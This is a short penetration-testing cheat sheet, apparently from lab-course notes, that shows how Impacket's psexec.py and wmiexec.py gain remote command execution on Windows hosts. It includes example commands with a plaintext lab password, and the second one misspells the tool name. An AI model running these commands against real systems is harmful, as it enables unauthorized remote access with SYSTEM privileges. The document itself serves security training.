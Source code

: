 ### PSexec.py
The tool creates a remote service by uploading a randomly-named executable to the ADMIN$ share on the target host. It then registers the service via RPC and the Windows Service Control Manager. Will be dropped in the SYSTEM context
```
psexec.py domain.local/username:'password'@host.ip
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```

### WMIexec.py
Stealthier approach than PSexec. Wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation.
```
wmiexec.py domain.local/username:'password'@host.ip
wmixec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
```
